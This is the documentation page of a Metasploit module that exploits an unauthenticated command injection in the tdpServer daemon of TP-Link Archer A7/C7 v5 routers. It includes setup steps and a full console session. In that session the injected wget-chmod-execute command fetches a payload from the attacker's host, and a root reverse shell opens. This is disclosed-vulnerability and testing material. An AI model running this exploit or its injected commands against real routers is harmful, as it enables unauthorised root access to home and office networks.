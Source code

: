 ## Description

This module exploits a command injection vulnerability in the tdpServer daemon (/usr/bin/tdpServer), running on the router TP-Link Archer A7/C7 (AC1750), hardware version 5, MIPS Architecture, firmware version 190726.
The vulnerability can only be exploited by an attacker on the LAN side of the router, but the attacker does not need any authentication to abuse it. After exploitation, an attacker will be able to execute any command as root, including downloading and executing a binary from another host.

This vulnerability was discovered and exploited at Pwn2Own Tokyo 2019 by the Flashback team (Pedro Ribeiro + Radek Domanski).

## Vulnerable Application

TP-Link Archer A7 (AC1750) v5 firmware version 190726
TP-Link Archer C7 (AC1750) v5 firmware version 190726

[Firmware TP-Link Archer A7](https://static.tp-link.com/2019/201908/20190827/Archer%20A7(EU)_V5_190811.zip)
[Firmware TP-Link Archer C7](https://static.tp-link.com/2019/201908/20190816/Archer%20C7(EU)_V5_190726.zip)


## Verification Steps
  Example steps in this format (is also in the PR):

  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: ```use exploits/linux/misc/tplink_archer_a7_c7_lan_rce```
  4. Set RHOST, LHOST and SRVHOST
  5. Do ```check```
  6. Do: ```run```
  7. You should get a shell.
 
## Options
```
Module options (exploit/linux/misc/tplink_archerC7_lan_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    20002            yes       The target port (TCP)
   SRVHOST                   yes       IP address of the host serving the exploit
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/mipsbe/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```

## Scenarios
~~~
msf5 > use exploits/linux/misc/tplink_archer_a7_c7_lan_rce
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set RHOST 192.168.0.1
RHOST => 192.168.0.1
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set LHOST 192.168.0.238
LHOST => 192.168.0.238
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set SRVHOST 192.168.0.238
SRVHOST => 192.168.0.238
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > check 
[+] 192.168.0.1:20002 - The target is vulnerable.
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > 
[*] Started reverse TCP handler on 192.168.0.238:4444 
[*] Attempting to exploit TP-Link Archer A7/C7 (AC1750) v5 (firmware 190726)
[*] Starting up our web service on http://192.168.0.238:4445 ...
[*] Using URL: http://192.168.0.238:4445/x
[*] 192.168.0.1:20002 - Connecting to the target
[*] 192.168.0.1:20002 - Sending command file byte by byte
[*] 192.168.0.1:20002 - Command: wget http://192.168.0.238:4445/x;chmod +x x;./x
[*] 192.168.0.1:20002 - [0%]= = => - - - - - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = => - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = => - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = => - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = = = = = =>[100%]
[*] 192.168.0.1:20002 - Command file sent, attempting to execute...
[+] 192.168.0.1:20002 - Sending executable to the router
[+] 192.168.0.1:20002 - Sit back and relax, Shelly will come visit soon!
[*] Command shell session 1 opened (192.168.0.238:4444 -> 192.168.0.1:48112) at 2020-03-26 16:47:09 +0100
[*] Server stopped.

msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > sessions 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root)
uname -a
Linux ArcherC7v5 3.3.8 #1 Mon May 20 18:53:02 CST 2019 mips GNU/Linux
~~~